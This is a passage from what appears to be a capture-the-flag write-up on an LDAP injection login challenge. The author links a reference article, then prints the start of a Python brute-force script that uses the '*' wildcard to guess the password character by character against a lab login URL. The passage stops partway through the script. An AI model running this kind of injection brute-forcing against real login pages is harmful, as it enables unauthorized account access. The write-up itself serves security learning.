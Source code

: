 After searching about this exploit, I found a website, and it has a similar behavior as the Webapp.

https://www.netsparker.com/blog/web-security/ldap-injection-how-to-prevent/

And I thought, may be it is a `LDAP Injection`
And, it was absolutely new to me :)

After reading, it for quite a bit. I thought of writing another `Bruteforce script` for finding `username` and `password`

At first I thought that I have to find both `username` and `password` to solve the challenge, but in fact we actually don't require a username to solve the challenge XD

#
### Exploit Script :

```
# Arijit-Bhowmick [sys41414141]

import requests
import time

url = "http://206.189.121.131:30184/login"

user_name, passwd =  "", ""

#data = {"username":user_name, "password":passwd} # For testing purpose

#num_characters = (48 - 57)
#alphabet_chr = (65-90)/(97-122)
#special_characters = (32–47 / 58–64 / 91–96 / 123–126)

char = ''

chr_num_dict= {97:122, 65:90, 48:57, 32:47, 58:64, 91:96, 123:126}

for start in chr_num_dict.keys():
	for j in range(start, chr_num_dict[start]+1):
		char+=chr(j)

char=char.replace("*", '')


def chr_selector(track):

	return char[track]


def cred_finder(cred_to_find):
	
	global user_name
	global passwd



	test_user = ''
	track = 0


	if cred_to_find == "user_name":

		pass_character = ''
		validate_usr = ''
		validate_pass = "*"

		try:
```